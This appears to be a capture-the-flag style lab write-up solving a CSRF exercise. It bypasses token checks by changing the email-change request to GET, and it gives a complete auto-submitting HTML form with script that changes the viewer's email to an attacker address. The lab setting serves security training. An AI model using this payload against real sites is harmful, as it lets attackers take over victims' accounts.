 This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter 

# Solution

Change email -> Burp Repeater -> Change request method to GET and remove CSRF to test CSRF token validation

Bypass using GET request without supplying CSRF token

```html
<form id="autosubmit" action="https://0ab80045043e2279809044b90005007d.web-security-academy.net/my-account/change-email" enctype="application/x-www-form-urlencoded" method="GET">
 <input name="email" type="hidden" value="some-other-email@attacker.com" />
 <input type="submit" value="Submit Request" />
</form>
 
<script>
 document.getElementById("autosubmit").submit();
</script>
```